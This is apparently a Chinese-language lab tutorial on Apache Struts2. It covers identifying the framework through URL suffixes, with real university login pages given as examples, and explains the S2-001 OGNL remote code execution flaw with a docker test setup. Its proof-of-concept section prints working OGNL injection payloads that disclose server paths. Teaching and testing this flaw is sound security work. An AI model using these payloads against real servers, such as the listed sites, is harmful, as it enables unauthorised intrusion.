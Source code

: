 # 0x01	Strust2简介

## 一、Strust2框架识别

通过网页url后缀来进行判断，如`.do`或者`.action`，如下所示：

```xml
http://fs.seu.edu.cn/member/login.do
https://www.nxks.nx.edu.cn/admin/Login.do

https://xz.chsi.com.cn/survey/index.action
http://jxjyzk.suda.edu.cn/sso/login_loginPage.action
```

## 二、OGNL表达式

OGNL（Object-Graph Navigation Language 对象-图形导航语言）表达式

# S2-001 远程代码执行漏洞

## 原理



参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html



该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式` %{value} `进行解析，然后重新填充到对应的表单数据中。例如**注册或登录页面**，提交失败后端一般会默认返回之前提交的数据，由于后端使用 `%{value}` 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行

## 环境

执行以下命令启动s2-001测试环境

```plain
docker-compose build
docker-compose up -d
```

## POC && EXP

获取tomcat执行路径：

```plain
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：

```plain
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```
